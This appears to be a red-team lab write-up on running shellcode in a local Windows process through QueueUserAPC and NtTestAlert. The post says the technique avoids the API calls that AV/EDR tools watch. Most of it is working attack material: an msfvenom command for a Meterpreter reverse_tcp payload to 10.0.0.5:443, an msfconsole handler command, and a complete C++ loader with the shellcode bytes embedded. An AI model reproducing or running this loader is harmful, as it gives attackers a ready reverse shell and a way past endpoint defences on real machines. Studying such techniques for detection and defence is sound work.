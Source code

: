 ```yaml
---
layout: post
title: "shellcode execution in a local process with queueuserapc and nttestalert"
date: 2024-06-18
categories: all_md_files
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /shellcode-execution-in-a-local-process-with-queueuserapc-and-nttestalert/
---
```


---
layout: post
title: "shellcode execution in a local process with queueuserapc and nttestalert"
date: 2024-06-18
categories: code-injection-process-injection
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /shellcode-execution-in-a-local-process-with-queueuserapc-and-nttestalert/
---

# Shellcode Execution in a Local Process with QueueUserAPC and NtTestAlert

This is a quick lab that shows how to execute shellcode within a local process by leveraging a Win32 API `QueueUserAPC` and an officially undocumented Native API `NtTestAlert`, which lands in kernel that calls `KiUserApcDispatcher` if the APC queue is not empty.

The advantage of this technique is that it does not rely on `CreateThread` or `CreateRemoteThread` API calls which are more popular and hence usually more scrutinized by SOCs and AV/EDR vendors.

Thanks to [Mumbai](https://twitter.com/win64\_) for pointing me to `NtTestAlert`.

## Execution

The flow of the technique is simple:

1. Allocate memory in the local process for the shellcode
2. Write shellcode to the newly allocated memory location
3. Queue an APC to the current thread
4. Issue `NtTestAlert`
5. Receive meterpreter session

Lets's generate the meterpreter shellcode first:

{% code title="attacker@kali" %}
```csharp
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=443 -f c
```
{% endcode %}

![](<../../.gitbook/assets/Annotation 2019-05-27 191650.png>)

Short code that performs `NtTestAlert` function address resolution, memory allocation, shellcode writing to memory, APC queuing and `NtTestAlert` call:

![](<../../.gitbook/assets/Annotation 2019-05-27 192952.png>)

Now, set up a multi handler for catching the incoming meterpreter connection:

{% code title="attacker@kali" %}
```csharp
msfconsole -x "use exploits/multi/handler; set lhost 10.0.0.5; set lport 443; set payload windows/x64/meterpreter/reverse_tcp; exploit"
```
{% endcode %}

Below shows the technique in action, resulting in a meterpreter shell:

![](../../.gitbook/assets/apc-local.gif)

## Code

{% code title="local-apc.cpp" %}
```cpp
#include "pch.h"
#include <Windows.h>

#pragma comment(lib, "ntdll")
using myNtTestAlert = NTSTATUS(NTAPI*)();

int main()
{
	unsigned char buf[] = "\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x0f\x85\x72\x00\x00\x00\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x4b\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00\x49\x89\xe5\x49\xbc\x02\x00\x01\xbb\x0a\x00\x00\x05\x41\x54\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x41\x5e\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0a\x49\xff\xce\x75\xe5\xe8\x93\x00\x00\x00\x48\x83\xec\x10\x48\x89\xe2\x4d\x31\xc9\x6a\x04\x41\x58\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7e\x55\x48\x83\xc4\x20\x5e\x89\xf6\x6a\x40\x41\x59\x68\x00\x10\x00\x00\x41\x58\x48\x89\xf2\x48\x31\xc9\x41\xba\x58\xa4\x53\xe5\xff\xd5\x48\x89\xc3\x49\x89\xc7\x4d\x31\xc9\x49\x89\xf0\x48\x89\xda\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x41\x57\x59\x68\x00\x40\x00\x00\x41\x58\x6a\x00\x5a\x41\xba\x0b\x2f\x0f\x30\xff\xd5\x57\x59\x41\xba\x75\x6e\x4d\x61\xff\xd5\x49\xff\xce\xe9\x3c\xff\xff\xff\x48\x01\xc3\x48\x29\xc6\x48\x85\xf6\x75\xb4\x41\xff\xe7\x58\x6a\x00\x59\x49\xc7\xc2\xf0\xb5\xa2\x56\xff\xd5";
	myNtTestAlert testAlert = (myNtTestAlert)(GetProcAddress(GetModuleHandleA("ntdll"), "NtTestAlert"));
	SIZE_T shellSize = sizeof(buf);
	LPVOID shellAddress = VirtualAlloc(NULL, shellSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

	WriteProcessMemory(GetCurrentProcess(), shellAddress, buf, shellSize, NULL);
	
	PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)shellAddress;
	QueueUserAPC((PAPCFUNC)apcRoutine, GetCurrentThread(), NULL);
	testAlert();

	return 0;
}
```
{% endcode %}

## Reference

{% embed url="https://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FAPC%2FNtTestAlert.html" %}

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/api/processthreadsapi/nf-processthreadsapi-queueuserapc" %}
@spotheplanet
